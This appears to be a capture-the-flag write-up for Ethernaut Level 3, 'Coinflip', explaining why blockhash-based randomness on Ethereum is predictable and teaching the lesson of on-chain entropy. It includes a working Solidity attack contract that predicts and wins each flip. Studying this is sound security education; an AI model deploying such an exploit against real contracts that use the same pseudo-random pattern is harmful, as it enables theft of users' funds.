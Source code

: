 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/3-coinflip.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 3 - Coinflip</strong></h1>

</div>

## Objectif

<img src="../assets/requirements/3-coinflip-requirements.webp" width="800px"/>

## The hack

Everything in the EVM is deterministic. This means that entropy doesn't exist natively on-chain (you can use third-party solutions like [Chainlink VRF](https://docs.chain.link/vrf/)).
The logic used in the `CoinFlip` contract is only pseudo-random. So we can predict the next flip by using the same logic as the one in the contract.
Once done, we can call the `flip` function with the predicted value and repeat this 10 times to win the level.

## Solution

We can craft a smart contract that reproduces the same logic as the `CoinFlip` contract to predict the next flip and call the `flip` function with the predicted value.

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface ICoinFlip {
    function flip(bool) external returns (bool);
}

contract Unflip {
    address immutable coinflip;
    uint256 FACTOR =
        57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor(address _coinflip) {
        coinflip = _coinflip;
    }

    function playToWin() private view returns (bool) {
        uint256 pastBlockValue = uint256(blockhash(block.number - 1));
        uint256 coinFlipResult = pastBlockValue / FACTOR;
        return coinFlipResult == 1 ? true : false;
    }

    function attack() public {
        ICoinFlip(coinflip).flip(playToWin());
    }
}
```

## Takeaway

- Entropy doesn't exist on-chain
- Pseudo-randomness can help for development but not for production
- To read: https://github.com/ethereumbook/ethereumbook/blob/develop/09smart-contracts-security.asciidoc#entropy-illusion

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
